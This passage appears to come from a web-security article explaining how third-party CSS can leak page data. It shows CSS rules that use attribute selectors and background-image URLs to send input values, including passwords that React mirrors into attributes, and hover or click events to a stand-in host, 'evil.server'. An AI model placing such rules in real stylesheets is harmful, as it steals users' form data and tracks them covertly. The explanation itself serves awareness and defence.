 ### Reading attributes

Using the attribute selector, a 3rd party CSS can style the element differently based on different attribute value.

One, for example, could load a different background image for different attribute value. By knowing which background image is loaded, one could then know the value of the attribute.

With enough CSS written, covering all possibile values of the attribute, one could possibly figure out or reduce the search space to figure out the attribute value.

To make matter worse, some framework, for example React, synchornizes `input.value` to the `<input value="">` attribute.

<iframe src="https://codesandbox.io/embed/simple-password-ty7b7?fontsize=14&hidenavigation=1&theme=dark"
  style="width:100%; height:500px; border:0; border-radius: 4px; overflow:hidden;"
  title="Simple password"
  allow="accelerometer; ambient-light-sensor; camera; encrypted-media; geolocation; gyroscope; hid; microphone; midi; payment; usb; vr; xr-spatial-tracking"
  sandbox="allow-forms allow-modals allow-popups allow-presentation allow-same-origin allow-scripts"
></iframe>

An example of sniffing the attribute value using attribute selector + `background-image`:

```css
input[value$='a'] {
  background-image: url('http://evil.server/value?a');
}
input[value$='b'] {
  background-image: url('http://evil.server/value?b');
}
input[value$='c'] {
  background-image: url('http://evil.server/value?c');
}
input[value$='d'] {
  background-image: url('http://evil.server/value?d');
}
```

### Monitoring attributes

You can track hover and activations of an element and send that information to the server.

```css
a.c-rsvp:hover {
  background-image: url('http://evil.server/hover');
}
a.c-rsvp:active {
  background-image: url('http://evil.server/click');
}
```

### Reading text
